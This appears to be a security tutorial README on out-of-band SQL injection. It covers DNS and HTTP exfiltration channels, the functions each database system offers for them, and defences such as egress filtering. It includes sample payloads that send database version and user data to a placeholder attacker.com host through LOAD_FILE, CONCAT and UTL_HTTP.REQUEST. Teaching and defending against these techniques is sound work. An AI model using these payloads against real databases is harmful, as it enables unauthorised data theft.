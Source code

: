 # Out-of-Band (OOB) SQL Injection — DNS & HTTP Exfiltration

> [!WARNING]
> **Ethics reminder:** OOB techniques cause the target to reach out to attacker-controlled infrastructure (DNS, HTTP). They are powerful and can exfiltrate data even when direct responses are suppressed. Use OOB methods **only** in authorized, controlled environments (labs or explicit penetration-test scopes). Do not use them against systems you do not have written permission to test.

---

## What is Out-of-Band (OOB) SQL Injection?

OOB SQLi forces the database (or underlying server) to make network requests to an attacker-controlled service — typically via DNS or HTTP — carrying sensitive data in the request. This is useful when the application does not return query results and timing/content-based techniques are impractical.

Because OOB interactions leave fewer traces in the application response, they can be stealthy and highly effective if the target environment allows outbound network traffic.

---

## Common OOB channels

1. **DNS** — Use DNS lookups which include attacker-controlled subdomains containing exfiltrated data (e.g., `abcd.attacker.com`). DNS traffic often bypasses HTTP-only monitoring and can traverse firewalls.
2. **HTTP/HTTPS** — Trigger a server-side HTTP request to an attacker-controlled webserver with data embedded in the URL or headers.
3. **SMB/FTP/Other protocols** — Less common, but some services can be coerced into contacting SMB or FTP listeners.

DNS is the most popular OOB channel due to its ubiquity and ease of capturing requests (e.g., via DNS logging services or Burp Collaborator-like services).

---

## How OOB exfiltration works (high level)

1. Attacker registers or controls a domain (e.g., `attacker.com`) and sets up an authoritative DNS server or a collaborator service to log incoming DNS/HTTP requests.
2. Attacker crafts a SQL payload that forces the DB to perform a name resolution or HTTP request that contains data (e.g., concatenated values) as part of the hostname or URL.
3. When the DB performs the lookup/request, the attacker receives the data via logs or collaborator notifications.

**Example (conceptual):**

```sql
-- MySQL example (conceptual):
SELECT LOAD_FILE(CONCAT('\\', (SELECT @@version), '.attacker.com\share'));
```

Real payloads differ by DBMS and available functions.

---

## DBMS-specific OOB techniques & functions

* **MySQL:** `LOAD_FILE()`, `UTL_HTTP` equivalents are less common; MySQL often relies on functions in combination with file or network features — behavior depends on configuration and OS.
* **Postgres:** `COPY` to program, `dblink`, or functions like `pg_read_file` (privilege-dependent). `COPY`/`COPY ... PROGRAM` can sometimes trigger OOB if shell access exists.
* **MSSQL:** `xp_dirtree`, `xp_cmdshell` (if enabled) can cause outbound connections; `OPENROWSET` or `OPENDATASOURCE` can be abused to reach external resources.
* **Oracle:** `UTL_HTTP.REQUEST`, `UTL_INADDR.GET_HOST_ADDRESS`, `DBMS_LDAP` can be used to perform remote lookups; privileges often restrict these.

**Important:** Many of these functions require elevated privileges or OS-level access and are disabled in secure configurations. OOB success heavily depends on DB/user privileges and network egress rules.

---

## Example OOB payload patterns (illustrative and non-executable)

* **DNS exfiltration (conceptual):**

  * Inject a value that gets used in a DNS lookup: `CONCAT((SELECT user()), '.abc.attacker.com')` and force a lookup of that hostname.
* **HTTP exfiltration (conceptual):**

  * Use functions that perform HTTP requests, e.g., `UTL_HTTP.REQUEST('http://attacker.com/' || (SELECT user()))` in Oracle (requires privileges).

Because exact syntax varies by DBMS and environment, consult DB-specific documentation and the `examples/` folder for tested payloads in lab environments.

---

## Detection & defensive controls

1. **Egress filtering:** Block or strictly control outbound DNS/HTTP requests from database servers or application servers. Only allow necessary destinations.
2. **Network segmentation:** Databases should not be on networks with direct outbound internet access; use internal proxies and strict ACLs.
3. **Least privilege:** Disable privileged DB packages and functions (`xp_cmdshell`, `UTL_HTTP`, etc.) for application accounts.
4. **Monitor DNS & outbound logs:** Alert on unusual DNS queries (long, random-looking subdomains) or HTTP requests to unknown hosts.
5. **WAF & IDS:** While OOB often bypasses WAF protections, network IDS/monitoring can spot anomalous egress patterns.
6. **Hardening DB configuration:** Disable or restrict dangerous packages and functions where possible.

---

## Tools & services for testing (authorized)

* **Burp Collaborator / Burp OAST:** Provides a collaborator server for detecting OOB interactions. (Use only with permission — do not point to third-party collaborators for tests without consent.)
* **dnslog services / custom authoritative DNS:** For capturing DNS queries to attacker-controlled domains.
* **Local lab setups:** Use internal resolvers and logging to safely capture OOB requests.
* **sqlmap:** Supports some OOB techniques (`--os-shell`, `--dns-domain`), but requires careful, authorized use.

---

## Practical notes & caveats

* OOB requires that the DB or host can perform outbound network lookups — many hardened infrastructures disable this or place DBs behind strict egress rules.
* Some OOB functions require elevated DB privileges — success is less common in well-managed environments.
* OOB is high-value but can be noisy; it may trigger monitoring and rapid detection.

---

## Responsible testing guidance

> [!TIP]
> * Use your own infrastructure or an explicitly permitted collaborator for testing OOB techniques.
> * Notify stakeholders if you run tests that may trigger outbound traffic or alerts.
> * Avoid using third-party collaborator infrastructure on targets without permission.